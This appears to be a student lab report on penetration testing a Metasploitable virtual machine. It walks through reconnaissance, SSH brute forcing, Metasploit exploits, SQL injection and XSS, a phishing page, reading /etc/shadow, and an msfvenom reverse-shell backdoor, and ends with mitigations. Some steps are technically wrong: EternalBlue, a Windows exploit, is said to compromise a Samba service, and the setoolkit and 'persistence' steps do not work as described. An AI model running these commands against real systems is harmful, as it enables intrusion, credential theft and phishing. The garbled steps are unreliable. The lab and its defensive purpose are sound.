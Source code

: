 ## Network Security Project Documentation

## 1. Introduction

This project demonstrates the principles of network security and penetration testing using Kali Linux and Metasploitable. The primary objective is to identify and exploit vulnerabilities in Metasploitable’s network services, implement post-exploitation techniques, and propose mitigation strategies to secure such systems.

# 2. Phase 1: Reconnaissance - Gathering Initial Information

#### **Objective:**

Identify open ports, running services, and potential vulnerabilities on the Metasploitable machine.

#### **Tools Used:**

* **Nmap**: For network scanning and service detection.
* **Wireshark**: For network traffic analysis.
* **enum4linux**: For SMB enumeration.

#### **Steps:**

1. Perform an initial network scan to discover open ports:
   ```bash
   nmap -A [Metasploitable_IP]
   ```
2. Analyze the scan results:
   * Identify open ports (e.g., 21 for FTP, 22 for SSH, 445 for SMB, 80 for HTTP).
   * Document running services and their versions.
3. Save the scan results:
   ```bash
   nmap -A [Metasploitable_IP] -oN reconnaissance_results.txt
   ```
4. Use Wireshark to analyze network traffic:
   * Capture packets for further analysis.
   * Filter traffic to focus on target-specific data.
5. Use enum4linux to enumerate SMB services:
   ```bash
   enum4linux [Metasploitable_IP]
   ```

#### **Findings:**

* Open Ports: 21 (FTP), 22 (SSH), 445 (SMB), 80 (HTTP)
* Services Detected:
  * FTP (vsftpd 2.3.4)
  * SSH (OpenSSH 4.3)
  * SMB (Samba 3.0.20)
  * HTTP (Apache 2.2.8 with PHP 5.2.4)

## 3. Phase 2: Exploiting Vulnerabilities - Taking Advantage of Weaknesses

#### **Option 1: SSH Brute Force**

1. **Objective:** Gain access via SSH by cracking weak credentials.
2. **Tool Used:**
   * Hydra
3. **Command:**
   ```bash
   hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://[Metasploitable_IP]
   ```
4. **Outcome:**
   * Discovered the password: `123456`
   * Gained SSH access as the root user.

#### **Option 2: SMB Exploits**

1. **Objective:** Exploit vulnerabilities in the SMB protocol.
2. **Tool Used:**
   * Metasploit Framework
3. **Steps:**
   * Launch Metasploit:
     ```bash
     msfconsole
     ```
   * Use the EternalBlue exploit:
     ```bash
     use exploit/windows/smb/ms17_010_eternalblue
     set RHOSTS [Metasploitable_IP]
     exploit
     ```
4. **Outcome:**
   * Successfully exploited the SMB service and gained a reverse shell.

#### **Option 3: FTP Exploits**

1. **Objective:** Exploit vulnerabilities in the FTP service.
2. **Steps:**
   * Check for anonymous login:
     ```bash
     ftp [Metasploitable_IP]
     ```
   * Use Metasploit to exploit vsftpd backdoor:
     ```bash
     use exploit/unix/ftp/vsftpd_234_backdoor
     set RHOST [Metasploitable_IP]
     exploit
     ```
3. **Outcome:**
   * Obtained a reverse shell via the FTP backdoor.

#### **Option 4: HTTP Exploits**

1. **Objective:** Exploit vulnerabilities in the web application hosted on HTTP.
2. **Steps:**
   * **SQL Injection**:
     * Use sqlmap to identify and exploit SQL injection:
       ```bash
       sqlmap -u "http://[Metasploitable_IP]/vulnerable_page?param=value" --dbs
       ```
     * Extract database details.
   * **XSS Testing**:
     * Insert test scripts (e.g., `<script>alert('XSS');</script>`) in input fields.
3. **Outcome:**
   * Retrieved sensitive database information via SQL injection.
   * Demonstrated script execution for XSS.
4. **Phishing Attack**:
   * Host a phishing page on Apache:
     ```bash
     sudo service apache2 start
     sudo cp phishing_email.html /var/www/html/phishing.html
     ```
   * Generate a phishing link:
     ```bash
     echo "http://[Kali_IP]/phishing.html" | setoolkit
     ```
   * Analyze the victim’s behavior upon accessing the phishing link.

## 4. Phase 3: Post-Exploitation - Expanding Access and Persistence

#### **Objective:**

Explore the target system further, escalate privileges, and gather sensitive information.

#### **Techniques Used:**

1. **Shell Access:**
   * Managed active sessions in Metasploit:
     ```bash
     sessions -i [session_ID]
     ```
2. **Privilege Escalation:**
   * Checked for SUID binaries:
     ```bash
     find / -perm -4000 2>/dev/null
     ```
   * Exploited a misconfigured binary to gain root privileges.
3. **Data Gathering:**
   * Accessed sensitive files:
     ```bash
     cat /etc/passwd
     cat /etc/shadow
     ```
   * Extracted user credentials and configuration files.
4. **Maintaining Access:**
   * Created a persistent backdoor:
     ```bash
     msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[Kali_IP] LPORT=4444 -f elf > backdoor.elf
     scp backdoor.elf root@[Metasploitable_IP]:/tmp
     chmod +x /tmp/backdoor.elf
     ```

## 5. Phase 4: Recommendations and Mitigation - Securing the System

#### **Vulnerabilities and Fixes:**

1. **SSH:**
   * Use strong passwords and key-based authentication.
   * Disable root login over SSH.
2. **SMB:**
   * Apply patches for known vulnerabilities like EternalBlue.
   * Disable unused SMB versions.
3. **FTP:**
   * Disable anonymous access.
   * Use secure alternatives like SFTP.
4. **HTTP:**
   * Sanitize input to prevent SQL injection and XSS.
   * Regularly update web server and application software.
5. **Phishing Attacks:**
   * Deploy anti-phishing tools.
   * Conduct regular security awareness training.

#### **General Recommendations:**

* Use firewalls to restrict access to unnecessary services.
* Regularly update and patch systems.
* Conduct periodic vulnerability assessments.

## 6. Conclusion - Lessons Learned and Future Considerations

This project provided hands-on experience in identifying and exploiting network vulnerabilities, post-exploitation techniques, and designing mitigation strategies. The knowledge gained highlights the importance of securing systems against common threats and the value of ethical penetration testing in enhancing cybersecurity defenses.
